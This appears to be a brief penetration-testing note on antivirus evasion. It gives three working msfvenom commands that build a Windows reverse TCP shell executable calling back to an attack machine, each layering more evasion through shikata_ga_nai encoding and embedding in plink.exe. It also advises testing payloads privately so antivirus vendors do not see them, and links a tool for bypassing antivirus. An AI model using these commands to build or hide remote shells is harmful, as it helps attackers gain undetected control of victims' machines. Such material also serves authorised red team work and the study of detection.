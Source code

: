 # Antivirus evasion

The easiest way to test payloads is to upload them to [VirusTotal](https://www.virustotal.com/#/home/upload). They share uploads with anti-malware companies so if you're planning to use a payload in a red team operation, it might be better to test it in a VM with your target network's antivirus installed.

Most antivirus software will detect unencoded payloads like this:
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -o evil.exe
```
Even when a payload is encoded with [shikata ga nai](https://security.stackexchange.com/questions/130256/what-is-shikata-ga-nai) it is still generally detectable by antivirus because the executable template is recognized:

```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -o evil.exe
```
Embedding the shellcode in a Windows PE executable is a little less detectable: 
```
msfvenom -p windows/shell_reverse_tcp LHOST=[attack machine] LPORT=4444 -f exe -e
x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o
evil.exe
```
## Further reading
* [Veil: a payload generator to bypass antivirus](https://www.christophertruncer.com/veil-a-payload-generator-to-bypass-antivirus/)
